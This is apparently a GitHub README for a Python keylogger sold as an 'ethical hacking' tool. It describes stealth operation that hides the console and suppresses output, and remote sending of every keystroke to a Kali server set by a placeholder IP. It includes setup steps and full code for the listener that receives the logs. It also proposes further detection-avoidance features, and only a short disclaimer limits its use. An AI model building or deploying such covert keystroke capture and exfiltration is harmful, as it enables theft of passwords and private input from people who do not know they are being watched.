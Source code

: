 # Ethical Keylogger with Stealth Mode and Remote Logging

## Overview

This is a Python-based keylogger designed for **ethical hacking** purposes. The keylogger operates on both **Windows** and **Linux** systems, captures keypresses (including key combinations), runs in stealth mode, and sends logged data to a remote server for analysis. This tool is useful for penetration testers or system administrators to evaluate security by monitoring user activity (with proper authorization).


## Features

- **Cross-Platform Compatibility**: Works on both Windows and Linux.
- **Stealth Mode**: The script hides its console window on Windows and suppresses output on Linux.
- **Key Combination Support**: Captures and logs combinations such as `Ctrl+C`, `Shift+A`, etc.
- **Remote Logging**: Sends keystroke logs to a remote server (e.g., Kali Linux) for analysis.
- **Root/Admin Privilege Check**: Ensures the keylogger runs with appropriate permissions.

## Installation and Setup

### 1. Prerequisites

- Python 3.x
- `pynput` library for capturing keyboard events:
  ```bash
  pip install pynput
  ```

### 2. Keylogger Configuration

- Clone or download the keylogger script.
- Open the script and configure the **IP address** and **port** of the remote Kali Linux server:
  ```python
  REMOTE_SERVER_IP = "KALI_IP_ADDRESS"  # Replace with the actual IP of your Kali server
  REMOTE_SERVER_PORT = 5555             # Ensure this matches the port your server listens on
  ```

### 3. Running the Keylogger

#### On Windows:
1. Open **Command Prompt** as an **Administrator**.
2. Run the keylogger:
   ```bash
   python keylogger.py
   ```

#### On Linux:
1. Run the keylogger with **root privileges**:
   ```bash
   sudo python3 keylogger.py
   ```

### 4. Kali Linux Server Setup

To receive the keystroke logs, you need to set up a server on your Kali Linux machine:

1. Create the following `server.py` script on your Kali Linux machine:

   ```python
   import socket

   def start_server():
       server_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
       server_socket.bind(('0.0.0.0', 5555))  # Replace with your chosen port
       server_socket.listen(5)
       print("Listening for incoming keylogs...")

       while True:
           client_socket, addr = server_socket.accept()
           print(f"Connection from {addr}")
           while True:
               data = client_socket.recv(1024)
               if not data:
                   break
               print(f"Received: {data.decode('utf-8')}")

   if __name__ == "__main__":
       start_server()
   ```

2. Run the server to start listening for incoming key logs:
   ```bash
   sudo python3 server.py
   ```

3. Ensure that the IP address and port of the server match those in the keylogger configuration.

### 5. Stealth Mode

- **Windows**: The keylogger hides the console window automatically using `ctypes`.
- **Linux**: The keylogger suppresses all output by redirecting `stdout` and `stderr` to `/dev/null`.

## How It Works

1. **Keystroke Logging**: The keylogger captures every keystroke, including special keys and key combinations (e.g., `Ctrl`, `Shift`, `Alt`).
2. **Remote Communication**: Keystrokes are sent to the remote server (Kali Linux machine) over a socket connection.
3. **Stealth Operation**: The keylogger hides itself from view by running silently in the background, making it less likely to be detected by the user.
4. **Privilege Check**: The script checks for admin (Windows) or root (Linux) privileges and will not run without them.

## Legal Disclaimer

This keylogger is intended solely for ethical hacking and penetration testing purposes, where **explicit authorization** is provided. Unauthorized use of this tool to monitor activity on a system you do not own or have permission to access is illegal and may result in severe legal consequences.

Always ensure you have proper authorization before using this keylogger in any environment. I am not responsible for any misuse or illegal activity resulting from its use.

## License

This project is licensed under the MIT License – see the [LICENSE](LICENSE) file for details.

---

### Next Steps

- Setting up encryption for secure data transfer between the keylogger and the remote server.
- Add logging capabilities for mouse events or screenshots.
- Additional detection-avoidance techniques as required for penetration testing.

---
